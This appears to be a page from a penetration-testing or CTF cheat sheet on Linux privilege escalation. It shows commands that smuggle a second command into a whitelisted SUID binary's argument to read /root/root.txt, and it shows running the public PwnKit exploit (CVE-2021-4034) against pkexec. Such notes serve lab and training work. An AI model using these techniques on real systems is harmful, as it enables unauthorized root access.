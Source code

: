 ```yaml
---
icon: face-angry-horns
---
```


# Binary Exploitation - Linux

{% hint style="danger" %}
### <mark style="color:purple;">Bypass</mark> <mark style="color:orange;">`SUID`</mark> <mark style="color:purple;">whitelist</mark>

* <mark style="color:purple;">Sometimes</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">commands may have a whitelist for commands .</mark>
* <mark style="color:purple;">This can be bypassed by using</mark> <mark style="color:orange;">**`subcommands`**</mark><mark style="color:purple;">**:**</mark>

```sh
supershell ‘/bin/ls $(cat /root/root.txt)’
```

* <mark style="color:purple;">In this example</mark> <mark style="color:orange;">**`supershell`**</mark> <mark style="color:purple;">is the</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">binary and</mark> <mark style="color:orange;">**`/bin/ls`**</mark> <mark style="color:purple;">the whitelisted command, there are also another way to bypass this by using</mark> <mark style="color:orange;">**`'`**</mark> <mark style="color:purple;">to open a quote:</mark>

```sh
supershell ‘/bin/ls
```

* <mark style="color:purple;">Then in the next line use your desired command:</mark>

```sh
cat /root/root.txt’
```
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Exploit</mark> <mark style="color:orange;">`pkexec`</mark>

* <mark style="color:purple;">Check if</mark> <mark style="color:orange;">**`pkexec`**</mark> <mark style="color:purple;">has</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">permissions:</mark>

```sh
ls -l /usr/bin/pkexec
```

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`pwnkit`**</mark>](https://github.com/joeammond/CVE-2021-4034/)<mark style="color:purple;">:</mark>&#x20;

```sh
python CVE-2021-4034.py
```
{% endhint %}

